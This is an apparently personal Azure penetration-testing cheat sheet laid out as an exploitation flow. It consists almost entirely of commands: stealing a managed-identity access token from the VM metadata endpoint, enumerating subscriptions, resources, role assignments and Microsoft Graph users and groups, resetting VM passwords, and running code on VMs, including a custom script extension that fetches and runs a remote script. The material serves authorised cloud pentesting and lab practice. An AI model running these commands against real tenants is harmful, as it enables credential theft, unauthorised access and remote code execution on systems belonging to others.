 # Exploitation Flow 
### Login tricks

```
### Try this
$pscredential = Get-Credential
Connect-AzureRmAccount -ServicePrincipal -ApplicationId "http://my-app" -Credential $pscredential -TenantId $tenantid
AzCopy /Source:https://myaccount.blob.core.windows.net/mycontainer /Dest:C:\myfolder /SourceKey:key /S
```

### 1. Get shell 

### 2. ```env```

### 3. Metadata 

3.1 Get metadata of the azure vm
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
3.2 Get auth token of managed identity
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F'
```

### 4. Enum
4.1 Get list of subscriptions
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01
```

4.2 List of resource groups and resources
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 
```

### 5. ARM resources
List resources user has atlease read privilege
```az role assignment list --scope <resource-id> --include-inherited```
```curl -X GET -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" "https://management.azure.com/<resource-id>/providers/Microsoft.Authorization/roleAssignments?api-version=2020-04-01-preview"```

Access cloud shell drive data
```
curl -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" -X GET "https://portal.azure.com/api/v1/?environment=clouddrive"
```

Get deployment history ```az deployment group list --resource-group rgname```

#### VM commands

VM password reset 
```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

VM run command
```
Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

VM command for running a ps script
```
Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```

### 6. MS Graph access
Get access token
```az account get-access-token --resource https://graph.microsoft.com```

Get user info
```curl -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/me```

Get list of users
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/users ```

Get list of Groups
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/groups```

Get groups
```
az role assignment list --scope /subscriptions/2213e8b1-dbc7-4d54-8aff-b5e315df5e5b/resourceGroups/1-6417d8f7-playground-sandbox/ --include-inherited
```

List of groups I am a member of 
```
curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/memberOf/$/microsoft.graph.group?$filter=groupTypes/any(c:c%20eq%20'unified')"
```

curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/drive/root/children"


### Misc useful commands


### Lab setup 
```az deployment group create --resource-group sec --template-file ./file.json```
